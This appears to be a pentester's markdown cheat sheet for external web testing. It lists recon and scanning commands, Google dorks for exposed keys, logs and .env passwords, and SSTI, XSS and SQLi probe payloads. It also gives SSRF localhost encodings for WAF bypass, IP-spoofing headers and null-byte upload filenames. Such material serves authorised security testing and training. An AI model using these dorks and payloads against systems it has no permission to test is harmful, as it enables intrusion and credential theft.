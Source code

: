 # External Penetration Testing

## `Tools`

```text
amass
nmap
gobuster
nikto
Nessus
Burp Suite
```

## `Passive discovery` 

### get js script

```text
go get github.com/tomnomnom/waybackurls
waybackurls internet.org | grep "\.js" | uniq | sort
```

### dork on domain

```text
inurl:example.com intitle:"index of"
inurl:example.com intitle:"index of /" "*key.pem"
inurl:example.com ext:log
inurl:example.com intitle:"index of" ext:sql|xls|xml|json|csv
inurl:example.com "MYSQL_ROOT_PASSWORD:" ext:env OR ext:yml -git
```

### get url in file

```text
cat file | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*"*
in js file => curl http://host.xx/file.js | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*"*
```

## `Active discovery` 

### Services

```text
nmap -sS -sV -O --top-ports 1000 --script=banner,nse,http-head
```

### Subdomains

#### amass

```text
amass enum -ip -brute -active -d <domain> 
amass viz -maltego -d <domain> -o mydir
```

#### check if subdomain exist

```text
cat alive-subdomains.txt | parallel -j50 -q curl -w 'Status:%{http_code}\t Size:%{size_download}\t %{url_effective}\n' -o /dev/null -sk
```

### Vhosts

```text
nmap --script http-vhosts -p 80,8080,443 <target>
Burp Intruder (Host header)
```

### Urls

```text
./dirsearch.py -u <target> -e php,html,js,xml -x 500,403
wfuzz -c -z file,/root/wordlist.txt --hc 404 <target>/FUZZ
Burp Pro (Content Discovery)
```

#### Found asset and params

```text
assetfinder example.com | gau | egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'); echo -e "\e[1;33m$url\n\e[1;32m$vars"; done
```

#### link finder

```text
https://github.com/GerbenJavado/LinkFinder
 python linkfinder.py -i https://example.com -d -o cli
```

#### `URL finder`

```text
wget -qO- https://stackoverflow.com/ | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*" | sort -u
```

#### Dir Listing dump

```text
wget -r --no-parent target.com/dir
```

## Injections

### SSTI

```text
"<%= 7 * 7 %>"@example.com 
test+(${{7*7}})@example.com
```

### XSS

```text
test+(<script>alert(0)</script>)@example.com
test@example(<script>alert(0)</script>).com
"<script>alert(0)</script>"@example.com
```

### SQLI

For [http://site.com/?q=HERE](http://site.com/?q=HERE)

```text
/?q=1
/?q=1'
/?q=1"
/?q=[1]
/?q[]=1
/?q=1`
/?q=1\
/?q=1/*'*/
/?q=1/*!1111'*/
/?q=1'||'asd'||'   <== concat string
/?q=1' or '1'='1
/?q=1 or 1=1
/?q='or''='
```

## Bypass __WAF

### SSRF localhost

```text
http://127.1/
http://0000::1:80/
http://[::]:80/
http://2130706433/
http://whitelisted@127.0.0.1
http://0x7f000001/
http://017700000001
http://0177.00.00.01
```

### X-Header

```text
Accept: application/json, text/javascript, */*; q=0.01 
Host : localhost
X-Originating-IP: IP
X-Forwarded-For: IP
X-Remote-IP: IP
X-Remote-Addr: IP
X-Client-IP: IP
X-Host: IP
X-Forwared-Host: IP
```

### NullByte

```text
file.jpg%00shell.php
shell.php%00file.jpg
shell.php%00.jpg
```

## `Burp tips`

### Extensions

RetireJS Burp extension =&gt; donne les versions + les vulns

### `Problems`

#### `SSL Pass Trough`

Burp Suite &gt; Proxy &gt; Options &gt; TLS Pass Through settings: ._.google.com ._.gstatic.com ._.googleapis.com ._.pki.goog ._.mozilla.._

